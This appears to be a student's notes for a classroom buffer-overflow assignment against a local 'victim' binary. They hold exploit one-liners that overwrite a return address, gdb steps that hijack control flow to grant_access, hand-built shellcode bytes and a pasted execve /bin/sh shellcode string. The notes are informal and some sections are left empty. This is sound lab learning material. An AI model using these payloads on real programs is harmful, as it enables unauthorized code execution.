


# Assignment 2

```sh
(gdb) set disassembly-flavor intel
(gdb) disas main
```

## Step 1

```sh
objdump -d victim > source.dump
objdump -d victim -M intel > source2.dump
# find memtest address and make it little endian
# 08049206 <memtest>
python -c "print 'A' * 24 + '\x06\x92\x04\x08'" | ./victim
>>Return address: 0x00000000
>>Frame address:  0xffafffdc
```

`strncpy()` copies the string by specifying the number n of characters to copy
e.g., `strncpy(dest, src, n); dest[n] = '\0'`
If source string is longer than the destination string, the overflow characters are discarded automatically
You have to place the null character manually

## Step 2

First approach

```sh
id -ur #1000
printf '%x\n' 1000 #0x3e8
# bof to \xa2\x92\x04\x08 0x080492a2 <grant_access>
python -c "print 'A' * 24 + '\xa2\x92\x04\x08'" > out2
gdb victim
(gdb) r < out2
(gdb) b * 0x80492b3 # before cmp
(gdb) set $eax = 0x3e8
```

Second approach

- argument passed to the grant_access, is saved in ebp-0x8
- so i put my user id inside ebp-0x8
- then set eip to the address of grant_access
- check out [step2.py](./step2.py)

## Step3

A\*12 + edx + AAAA + ebp + eip

```sh
Breakpoint 9, 0x0804931f in password_prompt ()
#0 0x0804931f in password_prompt ()
#1 0x080492a2 in get_user_id ()
#2 0x00000000 in ?? ()

(gdb) x/16xw \$sp

0xffefffb4: 0xffefffc4 0x0000000c 0x00000000 0x00000000
0xffefffc4: 0x42424141 0x44444343 0x46464545 0x48484747
0xffefffd4: 0x4a4a4949 0xffefffe0 0x080492a2 0x00000000
0xffefffe4: 0x00000000 0x00000000 0x00000000 0x00000000

0xffefffb4: 0xffefffc4 0x0000000c 0x00000000 0x00000000
0xffefffc4: 0x42424141 0x44444343 0x46464545 0x48484747
0xffefffd4: 0x4a4a4949 0xebp 0xeip 0x00000000
0xffefffe4: 0x00000000 0x00000000 0x00000000 0x00000000

4 steps:

1. must set eip=0xffefffc4

2. pass arg
"\x68\xE8\x03\x00\x00"
push DWORD PTR 0x3e8

3. valid return point? set it after our code?! ebp=0xffefffe4

4. go to grant_access
"\x68\xA2\x92\x04\x08\xC3"
Disassembly: 6bit
0:  68 a2 92 04 08          push   0x80492a2
5:  c3                      ret

mov ebp,0xffefffd0 "\xBD\xD0\xFF\xEF\xFF" 5
mov_ebp_ffefffd0 = struct.pack("I", 0xBDD0FFEFFF)

push_3e8 = struct.pack("I", 0x68E8030000)

push_80492a2 = "\x68\xA2\x92\x04\x08" 5
push 0x80492a2


ret= \xC3 1
id= struct.pack("I", 0x3e8) 4
"\xBD\xD0\xFF\xEF\xFF\x68\xE8\x03\x00\x00\x68\xA2\x92\x04\x08\xC3"
16byte


for debuging # x/16wx 0xffefffc4
```

## Step 4

- Use NOPs and retired to estimated point/address.
- Sometimes it happens because of enviromental variables. We can remove them. `$env --ignore-environment ./victim (gdb) unset env`
- Maybe use relative address [eip-0x14]!!

## Step 5

Hijack Victim OS

## ASM

- `esp`: the **top of the stack**. It points to (holds the address of) the most-recently pushed value on the stack.
- `eip`: is the instruction pointer. It points to (holds the address of) the first byte of the **next instruction to be executed**.
- `ebp`: is usually set to esp at the start of the function.
- `lea` https://www.aldeid.com/wiki/X86-assembly/Instructions/lea
- NOP \x90
- INT3 \xCC breakpoint

## Endian


# Resources

- https://www.asciitohex.com/
- https://defuse.ca/online-x86-assembler.htm#disassembly
- https://github.com/z3tta/Exploit-Exercises-Protostar
- https://0xrick.github.io/binary-exploitation/bof6/
- [Py.Struct](https://docs.python.org/2/library/struct.html)
- <http://shell-storm.org/>
- <http://shell-storm.org/shellcode/>
- \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
- [To execute shell code, you can edit a function's contents directly](https://stackoverflow.com/questions/5661021/how-to-run-assembly-in-gdb-directly)

## meaning-of-0x8rsp

Parentheses generally mean to dereference. 0x8(%rsp) means "get the location on the stack that is 8 bytes away from the stack pointer %rsp, and then take the value at that address."
It moves 0x131 into %eax, and then compares it to the data at that location. cmp sets the eflags register depending on that comparison (like the Zero Flag if the operands were equal, etc.)
To see what is at the address using GDB, type

(gdb) x/1dw 0x8(%esp)
This command 'x' examines memory.
1 means examine 1 of whatever unit is specified.
"d" means output in decimal notation (as opposed to hex). you might use "c" to get a char, or "x" to get a hex, or "s" for a string, or whatever.
"w" provides the unit, in this case a word, which is 4 bytes.
So this command looks at 4 bytes at the given address, 0x8(%rsp), and prints whatever is there in decimal format.
To learn more about using GDB to see how your memory is changing, see this document.

To read the memory at given addresses you should take a look at x. x/x $esp for hex x/d $esp for signed x/u $esp for unsigned etc. x uses the format syntax, you could also take a look at the current instruction via x/i $eip etc.

bt - backtrace: show stack functions and args
info frame - show stack start/end/args/locals pointers

(gdb)- `x/4xw $sp`
to print "four words (w ) of memory above the stack pointer (here, \$sp) in hexadecimal (x)". The quotation is slightly paraphrased

## from Notebook



